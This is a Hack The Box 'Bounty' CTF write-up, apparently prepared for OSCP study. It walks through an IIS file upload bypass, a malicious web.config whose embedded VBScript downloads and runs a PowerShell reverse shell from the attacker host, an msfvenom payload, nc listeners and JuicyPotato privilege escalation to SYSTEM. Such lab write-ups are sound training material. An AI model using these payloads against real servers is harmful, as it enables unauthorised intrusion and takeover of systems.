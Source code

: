 ```yaml
---
title: "Hack The Box - Bounty"
date: 2020-02-11
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Running ASPX code in web.config, and JuicyPotato"
picture: /assets/htb-bounty/machine_info.png
author_profile: true
---
```


![](/assets/htb-bounty/machine_info.png)

## Enumeration

Initial Nmap scans show only TCP port 80 open, running IIS 7.5. This tells us it's either a Windows 7 or Server 2008 R2 target.

```
Nmap scan report for 10.10.10.93
Host is up, received syn-ack (0.054s latency).
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Navigating to the site gives us only an image of Merlin

![](/assets/htb-bounty/merlin.jpg)

Running a scan with `dirsearch` gave me a directory called `/uploadedfiles`, which is directly inaccessible. It also gave me a file called `/transfer.aspx`, which gives a basic browse and upload button.

![](/assets/htb-bounty/transfer_page.png)

---

## Initial Shell

### Testing the upload process

Being that we have a directory called `/uploadedfiles` and an upload form on `transfer.aspx`, we can assume that any files we upload with the form, will show up under `/uploadedfiles`. 

If we try to upload an ASP/ASPX file directly, we get an error telling us it's an invalid file. Same happens with a simple TXT file.

![](/assets/htb-bounty/upload_invalid_file.png)

However, if we upload a PNG image, we get a positive result, and can pull up the image from `/uploadedfiles/machine_info.png`

![](/assets/htb-bounty/uploaded_png.png)

![](/assets/htb-bounty/uploaded_info_test.png)

So we have a method for uploading images, but how can we weaponize that?

A normal method of exploitation for something like this is the null-byte extension bypass. Basically, we feed the upload command to Burp, where we can change the file extension of the file name to something like `shell.aspx%00.png`.

To start, let's make an ASPX reverse shell with `msfvenom -p windows/powershell_reverse_tcp lhost=10.10.14.20 lport=7500 -f aspx -o shell.aspx.png`. This will create the shell for us, but add the `.png` extension at the end.

> Make sure you turn on Burp, and feed the web traffic through the proxy to capture the requests. Feed it to the Burp Repeater once you see it come through.

In Burp, we can change the filename in the request to include a null-byte, as shown below. YOu can also see that it worked, and uploaded our file as `shell.aspx` instead of `shell.aspx.png`.

![](/assets/htb-bounty/burp_nullbyte_good.png)

However, when we try to pull up the shell via our browser, we get a server error. So this method works, but we still don't get code execution that we're looking for.

![](/assets/htb-bounty/nullbyte_servererror.png)

### web.config

Another method to exploit a file upload function on IIS is to upload a `web.config` file. Normally this file is present in the root of the web directory, and contains certain options and configurations for the site. We can exploit this by inserting a commented section of ASP code, which the server will execute. [This page gives a great breakdown of the method](https://soroush.secproject.com/blog/tag/unrestricted-file-upload/).

We need to take some steps to setup this attack however:

- Copy the `Invoke-PowerShellTcp.ps1` script from the Nishang repository. We can copy it from our local repository with `cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .`
- Edit the copied version of the script, and add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 7500` to the bottom, which triggers the command to auto-run, instead of just loading modules to memory.
- Open a listener with `nc -lvnp 7500`
- Start a Python HTTP server with `python -m SimpleHTTPServer 80`

We can now create a local `web.config` file with the below code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.20/Invoke-PowerShellTcp.ps1')")
%>
```

Now that we have everything in place, we can upload `web.config` using the previous method. Once uploaded, navigate to `http://10.10.10.93/uploadedfiles/web.config` to trigger the exploit. When we check our listener, we can see our shell returned as expected, as user `merlin`.

![](/assets/htb-bounty/initial_shell.png)

We can grab `user.txt` from `C:\users\merlin\desktop\user.txt`. Note that we can't see the file unless we use `ls -force` to display hidden items.

![](/assets/htb-bounty/user_proof.png)

---

## Privilege Escalation

### Enumeration

When we run `systeminfo`, we can see some interesting information. First, we're on a Server 2008 R2 server, which we expected. Second, and more importantly, we see that no hotfixes have been applied to the machine. This means we'll likely have our choice of kernel exploits to choose from for privilege escalation.

![](/assets/htb-bounty/systeminfo.png)

When we run `whoami /priv`, we can see that `merlin` has the `SeImpersonatePrivilege` setting enabled, which will allow us to use [JuicyPotato](https://ohpe.it/juicy-potato/) for escalation.

![](/assets/htb-bounty/whoami_priv.png)

### JuicyPotato

We need to setup a few things before running the exploit:

- Copy the JuicyPotato exploit to the target.
  - Setup a SMB server with `sudo impacket-smbserver kali .`. Copy the JP executable to the target with `copy \\10.10.14.20\kali\JuicyPotato.exe`
- Modify out previously used `Invoke-PowerShellTcp.ps1` script to point to port 7600 instead of 7500.
- Create a batch script that will initiate a reverse shell as SYSTEM.
- Copy the batch script to the target with the same SMB server method
- Open a listener for the shell with `nc -lvnp 7600`
- Make sure you're Python HTTP server is still running as before.

The code for the batch script is below. You'll notice that it's the same basic command we ran before for the initial shell.

```batch
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.20/Invoke-PowerShellTcp.ps1')
```

Once all the pieces are in place, we can run the exploit on the target with `./JuicyPotato.exe -t * -p exploit.bat -l 9001`.

![](/assets/htb-bounty/root_shell.png)

We can grab the `root.txt` flag from `C:\Users\Administrator\Desktop\root.txt`. And it's not hidden this time :-)

![](/assets/htb-bounty/root_proof.png)